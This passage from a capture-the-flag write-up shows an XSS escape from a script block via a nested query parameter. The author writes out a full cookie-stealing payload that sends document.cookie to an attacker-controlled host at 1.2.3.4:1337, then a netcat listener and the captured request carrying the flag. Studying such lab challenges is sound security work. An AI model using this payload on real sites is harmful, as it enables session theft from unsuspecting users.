 It put additional quotes around our nested `test` object and didn't escape them!!! This is perfect!!! Escaping at the top of the script block means we have total control over everything that happens.

## Forming A Payload

Usually in challenges like these, the goal is to steal another user's cookie, in this case TJMike🎤. The way I am most familiar with is to append `document.cookie` to an image request: `<img src=http:"//1.2.3.4:1337?c="+document.cookie>`. Here's the game plan:

1. Cleanly escape the script block quotes to prevent errors, starting with a semi-colon should do the job
2. Create an image tag by setting `innerHTML` of the `note-content` object
3. Set the `src` of the new image to a server we control with the cookie appended
4. `exit()` the script block to prevent anything else from executing. 

Double quotes are still escaped, so we have to use single quotes. The `+` sign also needs to be encoded for this to work correctly. 

```
content[;document.getElementById('note-content').innerHTML='<img src=http://1.2.3.4:1337?c='%2bdocument.cookie%2b'>';exit();//]=pwnd
```

That's it! Run netcat on the listening box, summon TJMike🎤, and get the flag:

```
$ nc -lvnp 1337
Connection from 104.155.55.51:40640
GET /?c=secret=CTF{Express_t0_Tr0ubl3s}
Pragma: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept-Encoding: gzip, deflate
Host: 1.2.3.4:1337
Via: 1.1 infra-squid (squid/3.5.27)
X-Forwarded-For: 34.78.209.239
Cache-Control: no-cache
Connection:keep-alive
```

<div align="center"><img src="/media/flag_submitted_compressed.gif"></div>

## Resources

* Stack Overflow - Extended Body Parser: https://stackoverflow.com/a/39779840
